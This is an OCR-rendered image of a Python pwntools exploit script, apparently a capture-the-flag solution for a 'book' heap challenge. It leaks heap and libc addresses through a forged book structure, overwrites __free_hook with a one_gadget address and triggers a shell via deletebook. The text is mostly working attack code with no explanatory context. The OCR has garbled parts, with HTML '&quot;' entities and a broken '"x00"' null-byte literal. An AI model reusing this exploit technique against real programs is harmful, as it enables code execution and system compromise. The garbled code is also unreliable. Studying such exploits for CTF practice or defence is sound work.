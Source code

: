 ```python
io.sendline ( &quot;2&quot;)
io.readuntil (&quot;:&quot;)
	io.sendline(str(book_id))



createname("A" * 32)

createbook(128, "a", 32, "a")

createbook(0x21000, "a", 0x21000, "b")





book_id_1, book_name, book_des, book_author = printbook(1)

book1_addr = u64(book_author[32:32+6].ljust(8,'\x00'))

log.success("book1_address:" + hex(book1_addr))



payload = p64(1) + p64(book1_addr + 0x38) + p64(book1_addr + 0x40) + p64(0xffff)

editbook(book_id_1, payload)

changename("A" * 32)



book_id_1, book_name, book_des, book_author = printbook(1)

book2_name_addr = u64(book_name.ljust(8,"\x00"))

book2_des_addr = u64 (book_des.ljust (8, &quot;x00&quot;))
log.success("book2 name addr:" + hex(book2_name_addr))

log.success("book2 des addr:" + hex(book2_des_addr))

libc_base = book2_des_addr - 0x5b9010

log.success("libc base:" + hex(libc_base))



free_hook = libc_base + libc.symbols["__free_hook"]

one_gadget = libc_base + 0x4f322 # 0x4f2c5 0x10a38c 0x4f322

log.success("free_hook:" + hex(free_hook))

log.success("one_gadget:" + hex(one_gadget))

editbook(1, p64(free_hook) * 2)

editbook(2, p64(one_gadget))



deletebook(2)

```